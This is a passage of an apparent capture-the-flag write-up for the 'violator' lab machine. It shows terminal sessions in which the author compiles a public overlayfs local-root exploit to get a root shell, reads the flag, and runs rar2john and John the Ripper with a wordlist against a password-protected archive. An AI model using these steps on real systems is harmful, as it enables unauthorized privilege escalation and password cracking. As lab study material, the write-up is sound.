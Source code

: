 I launched uname command to view the current kernel and then I browsed into [exploit-db.com](https://www.exploit-db.com/exploits/39166/) and I found overlayfs local2root exploit. I uploaded the overlayfail.c in /tmp folder, I compiled it and I launched a.out and BOOOM! I'm the Root! Then I navigated into the Root folder and I found flag.txt and crocs.rar files:

```plaintext
dg@violator:/tmp$ gcc overlayfail.c
gcc overlayfail.c
dg@violator:/tmp$ ls -l
ls -l
total 20
-rwxrwxr-x 1 dg dg 13567 May  1 17:37 a.out
-rw-r--r-- 1 dg dg  2704 May  1 17:37 overlayfail.c
dg@violator:/tmp$ ./a.out
./a.out
root@violator:/tmp# cd /root
cd /root
root@violator:/root# ls -la
ls -la
total 24
drwx------  3 root root 4096 Jun 14  2016 .
drwxr-xr-x 22 root root 4096 Jun 14  2016 ..
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
d--x------  2 root root 4096 Jun 14  2016 .basildon
-rw-r--r--  1 root root  114 Jun 12  2016 flag.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
root@violator:/root# cat flag.txt
cat flag.txt
I say... I say... I say boy! Pumping for oil or something...?
---Foghorn Leghorn "A Broken Leghorn" 1950 (C) W.B.
root@violator:/root# cd .basildon
cd .basildon
root@violator:/root/.basildon# ls -l
ls -l
total 140
-rw-r--r-- 1 root root 140355 Jun 12  2016 crocs.rar
```

I went back to my local machine and I could see the contents of crocs.rar archive but it was protected by a password. I used rar2john to get the password hash. Then I tried to crack with the wordlist created before:

```plaintext
root@kali:~/Scrivania/reports/violator# rar2john crocs.rar > password.hashes
file name: artwork.jpg
root@kali:~/Scrivania/reports/violator# john password.hashes --wordlist pass.txt
Warning: only loading hashes of type "rar", but also saw type "descrypt"
Use the "--format=descrypt" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (rar, RAR3 [SHA1 AES 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:47 DONE (2017-02-11 23:01) 0g/s 74.90p/s 74.90c/s 74.90C/s World in My Eyes
Session completed
```
